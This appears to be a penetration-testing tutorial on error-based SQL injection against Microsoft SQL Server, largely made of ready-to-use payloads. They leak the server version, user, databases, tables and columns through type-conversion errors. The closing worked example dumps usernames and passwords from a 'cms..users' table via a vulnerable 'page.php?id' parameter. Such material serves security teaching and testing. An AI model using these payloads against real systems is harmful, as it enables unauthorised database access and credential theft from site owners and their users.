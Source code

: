 # MSSQL Server

In MSSQL, the name of the database objects are revealed within errors. the user sa is the super admin and has access to the master database. The master database contains schemas of user-defined dbs.

First thing we can do to start exploting it is to discover the database version, we can trigger a type conversion error for that.



```text
99999 or 1 in (SELECT TOP 1 CAST(<FIELDNAME> as varchar(4096)) from <TABLENAME> WHERE <FIELDNAME> NOT IN (<LIST>)); --
```

* `99999` is a bogus value.
* `or 1 in` is the part of the query that will trigger the error, we are trying to find 1, an integer, within a varchar column.
* `CAST(<FIELDNAME> as varchar(4096))` is where we insert the column that we want to dump \(either user-based or special database column\). 
* `<FIELDNAME>` can also be a SQL function like `user_name()` or a variable like `@@version`
* `WHERE <FIELDNAME> NOT IN (<LIST>)` this part is used to dump the database and can be ommited or ajusted.

To retrieve the SQL version:

```text
99999 or 1 in (SELECT TOP 1 CAST(@@version as varchar(4096))) --
```

```text
[Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value 'Microsoft SQL Server 2008 R2 (SP2) - 10.50.4000.0 (X64) Jun 28 2012 08:36:30 Copyright (c) Microsoft Corporation Express Edition (64-bit) on Windows NT 6.1 (Build 7601: Service Pack 1) (Hypervisor) ' to data type int.
```

So, with all this information, how can I dump the entire database?

First of all, we need to discover some stuff:

* Current database username:

```text
99999 or 1 in (SELECT TOP 1 CAST(user_name() as varchar(4096))) --
```

\*user\_name\(\) is a MSSQL function which returns the current user.

* Current databases and all other databases the user can read

```text
99999 or 1 in (SELECT TOP 1 CAST(db_name(0) as varchar(4096))) --
99999 or 1 in (SELECT TOP 1 CAST(db_name(1) as varchar(4096))) --
99999 or 1 in (SELECT TOP 1 CAST(db_name(2) as varchar(4096))) --
```

\*db\_name\(\) functoin accesses the master..sysdatabases table, which stores all databases installed. We can only see dbs that the user has rights to.

* The tables into a given database

To enumerate all tables in a database, we can use the following payload:

```text
9999 or 1 in (SELECT TOP 1 CAST(name as varchar (4096)) FROM <database name>..sysobjects WHERE xtype='U' and name NOT IN (<known table list>)); --
```

* `xtype means='U'` means we only want user-defined tables
* `name NOT IN ('<know table list>')` name is a column of the sysobjects table. Everytime we find a new table we will append it to the NOT IN list. This is needed because the error display only the first table name.
* The columns of a given table

After retrieving the tables, we can retrieve the columns using the following payload:

```text
9999 or 1 in (SELECT TOP 1 CAST (<db name>..syscolumns.name as varchar (4096)) FROM <db name>..syscolumns,<db name>..sysobjects WHERE <db name>..syscolumns.id=<db name>..sysobjects.id AND <dbname>. .sysobjects.name=<table name> AND <db name>..syscolumns.name NOT IN (<known column list>)); --
```

* `<db name>` is the name of database we're working on
* `<table name>` is the table which we're trying to find the columns
* `<known column list>` list of columns we already discovered

Finally, to dump the database, we can use the following query:

```text
9999 or 1 in (SELECT TOP 1 CAST (<column name> as varchar (4096) ) FROM <db name>..<table name> WHERE <column name> NOT IN (<retrieved data list>)); -- -
```

## Example

Lets say we have an exploitable page.php?id=1 and identified the table users in the database cms

This table contains:

* id - integer
* username - varchar
* password - varchar

To retrieve the ID values, we can use the following payload:

```text
9999 or 1 IN (SELECT TOP 1 CAST(id as varchar) %2bchar(64) FROM cms..users WHERE id NOT IN ('')); -- -
```

We need to concatenate the id value with @ to make sure the selected value has the data type varchar, this makes the error possible:

```text
[Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value '1@' to data type int.
```

Proceed to filter out `1` and query again:

```text
9999 OR 1 IN (SELECT TOP 1 CAST(id as varchar) %2bchar (64) FROM cms..users WHERE id NOT IN ('1')); -- -
```

So, the resulting error is something like

```text
Microsoft] [SQL Server Native Client 10.0] [SQL Server]Conversion failed when converting the varchar value '2@' to data type int.
```

After enumerating the ID, basically request the username or/and password:

```text
9999 OR 1 IN (SELECT TOP 1 CAST(username as varchar) FROM cms..users WHERE id=1); -- -
9999 OR 1 IN (SELECT TOP 1 CAST(password as varchar) FROM cms..users WHERE id=1); -- -
9999 OR 1 IN (SELECT username%2bchar(64) %2bpassword FROM cms..users WHERE id=1); -- -
```

